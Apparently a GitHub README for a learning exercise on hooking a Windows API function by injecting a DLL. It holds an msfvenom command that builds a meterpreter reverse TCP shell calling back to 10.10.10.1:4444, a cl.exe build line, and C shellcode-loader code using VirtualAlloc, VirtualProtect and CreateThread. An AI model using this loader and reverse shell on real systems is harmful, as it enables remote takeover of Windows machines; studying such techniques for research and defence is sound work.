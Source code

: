 # init
This is a little excercise that tries to solve the following task:  
hook a Win API function that gets called in an executable

This task gets solved in the following way:  
Write hooking code for a chosen Win API function, put it in a DLL and inject the DLL into some target process.

This example is split into two parts, a preparation phase and the coding phase.

prep phase:
+ Injecting meterpreter shellcode and executing through a DLL
+ DLL Debugging 
+ choosing the target function

tackling the problem:
+ writing the hooking code
+ building an exe to test the hook
+ adopting for x64
+ porting over to a DLL file

## Injecting meterpreter shellcode and executing through a DLL
At first I had some issues with executing meterpreter shellcode from a simple, self written DLL. This is due to a difference in execution of the shellcode depending on whether it is run from an .exe file or a .dll. Additionally, I noticed another issue when starting the DLL main or function via rundll32.exe. The executed shellcode does not keep the main thread from exiting. Therefor, I had to keep the DLL from exiting through either sleep or an infinite loop.

### Differences in starting the shellcode 
First things first, the chosen shellcode was a meterpreter windows x64 reverse tcp shell created with

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f c > code.c`

The shellcode is then embedded in a simple c file and compiled as a DLL with cl 

`cl.exe /O2 /D_USRDLL /D_WINDLL hook.c /MT /link /DLL /OUT:Hook.dll`

Also, as described [here](https://stackoverflow.com/questions/1130479/how-to-build-a-dll-from-the-command-line-in-windows-using-msvc), the same can be achieved with just `cl /LD <files>`

The shellcode execution in an exe file can either be done by specifying the code location as the starting point for a new thread like so:

```c
    exec = VirtualAlloc(0, lensh, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec, shellcode, lensh);
	VirtualProtect(exec, lensh, PAGE_EXECUTE_READ, &oldprotect);
	thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec, 0, 0, 0);
	WaitForSingleObject(thread, 0);
```

